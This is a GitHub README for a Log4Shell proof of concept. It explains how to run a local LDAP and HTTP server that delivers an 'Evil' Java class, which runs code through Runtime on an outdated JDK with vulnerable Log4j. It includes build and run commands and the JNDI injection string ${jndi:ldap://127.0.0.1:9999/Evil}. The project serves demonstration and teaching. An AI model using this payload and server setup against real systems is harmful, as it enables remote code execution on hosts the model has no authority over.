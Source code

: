 ## Log4Shell Proof of Concept

The purpose of this project is to demonstrate the Log4Shell exploit with Log4J versions older than `2.15.0`.

### Requirements

You'll need one of the following Java SDKs:
  * 11.0.1 or earlier
  * 8u191 or earlier
  * 7u201 or earlier
  * 6u211 or earlier

Java SDKs newer than those versions don't have the same vulnerability.

### Building the PoC

In the root folder, run:

```
./mvnw clean install
```

**NOTE:** This project includes the Maven wrapper, so you don't need to have previously installed Maven.

### Running the PoC

This repo has two modules: server and client.

The server module runs a lean LDAP & HTTP server.

The LDAP server listens on port `9999` by default and will return an `LDAPResult` that includes a URL reference to a
Java class that will be deserialized and executed.

The HTTP server listens on port `8000` and responds to any request with a byte array that is the `Evil.class`.

`Evil` implements `ObjecFactory` which the JNDI mechanism hooks into to execute its `getObjectInstance` method. While
the method simply returns `null`, it uses `Runtime` to execute arbitrary code on the host machine. In this case, it
writes to a file called: `/tmp/pwned` to prove that it _could_ execute basically anything available on the machine.

This PoC should run as-is on Linux or Mac.

Open a terminal window and run the following:

```
cd log4shell-server
../mvnw exec:java -Dexec.mainClass="Server"
```

You should see output that looks like the following:

```
[INFO] --- exec-maven-plugin:3.0.0:java (default-cli) @ log4shell-server ---
LDAP server listening on 0.0.0.0:9999
HTTP server listening on 0.0.0.0:8000
```

In another terminal window, run the following:

```
cd log4shell-client
JAVA_HOME=/Library/Java/JavaVirtualMachines/jdk1.8.0_111.jdk/Contents/Home \
../mvnw exec:java -Dexec.mainClass="Main"
```

**NOTE:** Referencing `JAVA_HOME` is important as the exploit only fully works with older JDK versions.
For example, you can download JDK 8u111 
[here](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html). If you download
and install the version for Mac, the above command will work for you.

You should see output that looks like the following:

```
[INFO] --- exec-maven-plugin:3.0.0:java (default-cli) @ log4shell-client ---
---------- JVM Props -------------
java.vm.version=25.111-b14
java.vm.vendor=Oracle Corporation
java.vm.name=Java HotSpot(TM) 64-Bit Server VM
java.vm.specification.name=Java Virtual Machine Specification
java.vm.specification.vendor=Oracle Corporation
java.vm.specification.version=1.8
java.vm.info=mixed mode
---------------------------------
20:27:49.676 [Main.main()] ERROR Main - test
/tmp/pwned DOES NOT EXIST
20:27:49.679 [Main.main()] ERROR Main - Output:${jndi:ldap://127.0.0.1:9999/Evil}
/tmp/pwned EXISTS - yah been pwned!
```

**NOTE**: The client app will tell you if it was successful. It does some checks, including looking for the 
`/tmp/pwned` file before and after the attack. You MUST delete the `/tmp/pwned` file between runs in order for the
client app to work properly. The file not being there and then being present after the attack is how it knows it's
been successful.